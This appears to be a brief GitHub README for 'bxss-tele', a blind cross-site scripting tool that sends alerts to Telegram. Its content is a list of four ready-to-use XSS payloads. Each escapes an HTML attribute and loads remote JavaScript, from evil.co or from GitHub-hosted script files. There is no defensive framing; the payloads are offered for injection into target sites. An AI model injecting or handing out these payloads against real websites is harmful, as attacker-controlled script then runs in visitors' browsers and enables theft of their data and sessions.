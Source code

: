 # bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>``` \
```"><script src=https://trhacknon.github.io/bxss-tg/bxss.js></script>``` \
```"><script src="https://raw.githubusercontent.com/trhacknon/bxss-tg/master/bxss.js">``` \
```"><script>$.getScript("//evil.co/bxt.js")</script>```
